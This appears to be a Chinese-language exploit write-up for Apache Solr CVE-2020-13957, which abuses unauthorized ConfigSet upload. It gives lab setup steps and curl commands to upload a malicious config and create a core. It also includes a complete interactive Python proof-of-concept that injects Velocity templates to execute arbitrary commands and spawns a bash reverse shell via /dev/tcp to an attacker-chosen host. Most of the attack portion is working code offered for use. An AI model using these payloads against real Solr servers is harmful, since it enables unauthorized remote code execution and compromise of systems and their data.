




Apache Solr RCE 未授权上传漏洞 CVE-2020-13957¶
漏洞描述¶
在特定的Solr版本中ConfigSet API存在未授权上传漏洞，攻击者利用漏洞可实现远程代码执行。
漏洞影响¶
Apache Solr 6.6.0 -6.6.5
Apache Solr 7.0.0 -7.7.3
Apache Solr 8.0.0 -8.6.2
环境搭建¶
选择一个存在漏洞的版本
这里复现使用的是 Apache Solr 7.7.0 进行复现
下载后执行以下命令进行环境部署
cd solr-7.7.0
./bin/solr start -e cloud -force
然后一路回车，直至出现
Created collection 'gettingstarted' with 2 shard(s), 2 replica(s) with config-set 'gettingstarted'
Enabling auto soft-commits with maxTime 3 secs using the Config API
POSTing request to Config API: http://localhost:8983/solr/gettingstarted/config
{"set-property":{"updateHandler.autoSoftCommit.maxTime":"3000"}}
Successfully set-property updateHandler.autoSoftCommit.maxTime to 3000
SolrCloud example running, please visit: http://localhost:8983/solr
访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可
漏洞复现¶
在攻击机上下载目标版本的Solr,执行下列命令打包压缩文件
solr-7.7.0/server/solr/configsets/sample_techproducts_configs/conf
zip -r - * > vuln.zip

将 vuln.zip 进行上传
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @vuln.zip "http://xxx.xxx.xxx.xxx:8983/solr/admin/configs?action=UPLOAD&name=vuln"
n****ame参数为压缩包的文件名
利用漏洞创建一个 core
curl "http://xxx.xxx.xxx.xxx:8983/solr/admin/collections?action=CREATE&name=peiqi&numShards=1&replicationFactor=1&wt=xml&collection.configName=vuln"
- name参数为创建的core核心名
- collection.configName参数为上传的文件名

查看core列表，发现已经成功创建
再使用 Apache Solr Velocity模板远程执行 CVE-2019-17558 即可执行任意命令
- POC使用详情参考另一篇复现文章

漏洞POC¶
- 使用前按复现步骤上传对应版本的zip文件，例如我这里上传的文件为 qwert.zip,其他使用方法与 Apache Solr Velocity模板远程执行 CVE-2019-17558 的POC使用方法类似
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from : http://wiki.peiqi.tech
import requests
import re
import sys
import os
import json
def title():
print('+------------------------------------------')
print('+ \033[34mPOC_Des: http://wiki.peiqi.tech \033[0m')
print('+ \033[34mGithub : https://github.com/PeiQi0 \033[0m')
print('+ \033[34m公众号 : PeiQi文库 \033[0m')
print('+ \033[34mVersion: Apache Solr 6.6.0 -6.6.5 \033[0m')
print('+ \033[34m Apache Solr 7.0.0 -7.7.3 \033[0m')
print('+ \033[34m Apache Solr 8.0.0 -8.6.2 \033[0m')
print('+ \033[36m使用格式: python3 cve-2020-13957.py \033[0m')
print('+ \033[36mUrl >>> http://xxx.xxx.xxx.xxx:8983 \033[0m')
print('+ \033[36mZip >>> vuln.zip(Zip文件名) \033[0m')
print('+------------------------------------------')
def POC_1(target_url, file_name):
core_name = str(input("\033[35mPlease input Create Core Name\nCore >>> \033[0m"))
core_update = """%s/solr/admin/collections?action=CREATE&name=%s&numShards=1&replicationFactor=1&wt=xml&collection.configName=%s""" % (target_url, core_name, file_name.replace(".zip",""))
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
}
response = requests.get(url=core_update, headers=headers, timeout=30)
if response.status_code != 200:
print("\033[31m[x] 创建Core失败 \033[0m")
sys.exit(0)
else:
core = re.findall(r'<str name="core">(.*?)</str>',response.text)[0]
vuln_url = target_url + "/solr/" + core + "/config"
print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core + "/config\033[0m")
return vuln_url,core
def POC_2(target_url, core):
open_params = target_url + "/solr/" + core + "/config"
headers = {
"Content-Type": "application/json",
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
}
set_api_data = """
{
"update-queryresponsewriter": {
"startup": "lazy",
"name": "velocity",
"class": "solr.VelocityResponseWriter",
"template.base.dir": "",
"solr.resource.loader.enabled": "true",
"params.resource.loader.enabled": "true"
}
}
"""
response = requests.request("POST", url=open_params, data=set_api_data, headers=headers, timeout=10)
if response.status_code == 200:
print("\033[32m[o] POST请求成功将params.resource.loader.enabled设置为True \033[0m")
else:
print("\033[31m[x] POST请求params.resource.loader.enabled设置为True失败 \033[0m")
sys.exit(0)
def POC_3(target_url, core, cmd):
vuln_url = target_url + "/solr/" + core + "/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27" + cmd + "%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"
headers = {
"Content-Type": "application/json",
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
}
response = requests.request("GET", url=vuln_url, headers=headers, timeout=10)
if "Error 500" in response.text:
print("\033[31m[x] 代码执行失败，响应为 Error 500 \033[0m")
else:
print("\033[32m[o] 漏洞成功利用,响应为\n \033[0m",response.text)
def POC_4(target_url, core, IP, PORT):
# POC : /bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/xxx.xxx.xxx.xxx:9999 0>&1
cmd = "%2Fbin%2Fbash%20-c%20%24%40%7Cbash%200%20echo%20bash%20-i%20%3E%26%2Fdev%2Ftcp%2F{}%2F{}%200%3E%261".format(IP, PORT)
vnul_url = target_url + "/solr/" + core + "/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27" + cmd + "%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"
headers = {
"Content-Type": "application/json",
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
}
response = requests.request("GET", url=vnul_url, headers=headers)
if __name__ == '__main__':
title()
target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
file_name = str(input("\033[35mPlease input File Name\nZip >>> \033[0m"))
vuln_url,core = POC_1(target_url, file_name)
POC_2(target_url, core)
while True:
cmd = input("\033[35mCmd >>> \033[0m")
if cmd == "exit":
sys.exit(0)
elif cmd == "shell":
IP = str(input("\033[35m请输入监听IP >>> \033[0m"))
PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
POC_4(target_url, core, IP, PORT)
else:
POC_3(target_url, core, cmd)
